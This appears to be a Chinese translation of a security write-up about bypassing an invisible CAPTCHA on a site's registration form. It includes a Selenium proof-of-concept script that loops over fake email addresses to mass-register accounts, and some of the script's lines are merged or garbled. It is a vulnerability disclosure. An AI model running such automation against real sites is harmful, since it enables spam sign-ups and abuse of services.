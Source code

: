 # 绕过隐形验证码的限速攻击

> 原文：<https://infosecwriteups.com/rate-limiting-attack-bypassing-invisible-captcha-a6e800903c5f?source=collection_archive---------1----------------------->

## 该应用程序实现了不可见的验证码，作为一种用户友好的方式，以避免用户注册的垃圾邮件。但问题是，这是应用程序防御垃圾邮件的唯一方法。

首先，你可以看到无形的验证码看起来像在一个网站上使用。

![](img/5497ee3da17ab258d7f3ca428def4975.png)

我使用 python 脚本创建了概念验证攻击，并演示了我将在下面解释的攻击:

首先，我记下了新用户注册时需要的所有必要参数。此外，记下每次更新时需要更新的参数，如电子邮件地址。

然后脚本看起来是这样的:

```
from selenium import webdriver
from time import sleeptest_emails = ["[demouser@anyinvaliddomain.com](mailto:demouser@anyinvaliddomain.com)","[demouser1@anyinvaliddomain.com](mailto:demouser1@anyinvaliddomain.com)"]
url = "[https://example.com/register](https://example.com/register)"
driver = webdriver.Chrome()

for email in test_emails:

    driver.get(url)
    sleep(3)#find first name element by name
    first_name = driver.find_element_by_name("FirstName")
    # submit into element name
    first_name.send_keys("john")Email = driver.find_element_by_name("Email")
    # submit our fake email IDs
    Email.send_keys(email)

    # submit button
    submit_button = driver.find_element_by_id("button_submit")
    submit_button.click()
```

*   所以首先从 selenium 包中导入 webdriver。
*   然后创建需要随着每个请求而改变的假电子邮件列表，并声明注册链接。
*   在 chrome 中打开 URL 后，获取并填充所需选项中的数据。
*   最后单击 submit 按钮，提交表单并在应用程序中为我们创建一个用户。

这个脚本经过必要的修改后对我来说很好。

就是这样。感谢阅读！

如需反馈/建议，请发送电子邮件至:[psdoom@protonmail.com](mailto:psdoom@protonmail.com)